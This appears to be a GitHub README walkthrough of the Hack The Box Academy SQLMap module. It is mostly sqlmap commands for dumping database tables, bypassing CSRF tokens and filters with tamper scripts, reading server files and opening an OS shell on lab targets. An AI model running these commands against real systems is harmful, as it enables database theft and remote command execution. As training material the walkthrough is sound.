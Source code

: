 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

## Case 5: Time-Based Blind SQLi ##

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

## Case 6: Using Prefix Payload ##

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

## Case 7: Union-Based Injection ##

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

## Case 8: CSRF Token Handling ##

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

## Case 9: Randomized Parameter ##

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

## Case 10: Random Agent ##

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

## Case 11: Tamper Script ##

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

## File Reading & OS Shell ##

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

## OS Shell Access ##

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

## Skills Assessment: Minishop Web App ##

## Overview ##

# Application # : Minishop

Pages Analyzed: Blog, Contact Us, Catalog

Findings

Blog: Not vulnerable (form action is '#')

Contact Us: Not vulnerable (form action is '#')

Catalog (/shop): Vulnerable — uses JavaScript to post JSON to action.php

Exploitation

Intercepted request using Burp Suite

Saved to shop.txt

Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

Outcome

Successfully dumped final_flag table from the production database.

Conclusion

This module strengthened my understanding of:

SQL injection techniques (Boolean-based, Time-based, Union-based)

Tamper scripts, CSRF tokens, and header injection

File read and OS shell interaction

Real-world application analysis and exploitation

I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics.

📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

🚀 Author

Manoj Ghimire

Connect on LinkedIn | Contact: email@example.com

📜 License

This project is licensed under the MIT License.

MIT License

Copyright (c) 2025 Manoj Ghimire

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

